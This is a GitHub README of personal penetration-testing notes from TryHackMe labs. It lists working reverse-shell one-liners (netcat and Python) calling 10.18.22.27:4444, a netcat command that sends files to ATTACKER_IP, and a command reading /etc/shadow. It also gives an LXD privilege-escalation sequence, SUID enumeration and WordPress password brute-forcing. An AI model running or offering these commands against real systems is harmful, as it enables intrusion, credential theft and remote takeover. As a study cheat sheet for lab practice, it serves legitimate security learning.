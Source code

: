 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
```
`l\s`: Equivalent to `ls`
#### Decompress a gzip file:
```
gzip -d file.gz
```

---
#### Reverse shells
* nc
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
* python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* python3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

---
#### Set appropriate permissions for `id_rsa` file before usage:
```linux
chmod 600 id_rsa
```

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
### Web
#### Discover hidden directories using `wfuzz`:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
---
###  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)


---
### Privilege Escalation:
#### LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
#### information gathering
```
cat /proc/version
cat /etc/issue
ps
env
sudo -l
hystory
ifconfig
ip route
uname -a
netstat # -at -l -t -tp -i
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag1.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #compare executables on this list with GTFOBins
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
```
####  Automated Enumeration Tools
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
---

### Windows
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```
lusrmgr.msc
```
</details>

<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```
MSConfig
```
</details>

<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```
taskmgr
```
</details>

<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```
UserAccountControlSettings.exe
```
</details>

<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```
compmgmt
```
</details>

<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```
msinfo32
```
</details>

<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```
resmon
```
</details>

<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```
regedit
```
</details>

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
---
Happy hacking!
